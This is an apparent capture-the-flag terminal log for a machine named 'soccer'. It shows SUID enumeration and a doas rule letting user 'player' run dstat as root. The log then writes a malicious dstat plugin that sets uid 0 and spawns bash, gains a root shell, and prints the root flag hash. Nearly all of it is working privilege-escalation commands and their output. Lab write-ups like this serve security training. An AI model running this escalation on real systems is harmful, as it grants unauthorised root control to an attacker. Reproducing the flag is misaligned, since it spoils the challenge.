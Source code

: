 /snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:~$ 



player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ 



player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat


https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/


player@soccer:~$ vi /usr/local/share/dstat/xabaras.py



import os
os.setuid(0)
os.system("/bin/bash")
~                                                                                                                                                                                                            
     



player@soccer:~$ /usr/local/bin/doas -u root /usr/bin/dstat --xabaras
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# if
> ^C
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
root@soccer:/home/player# cat /root/root.txt 
b35fe80d70d15e0f4334b1ddb8d7060e
root@soccer:/home/player# 









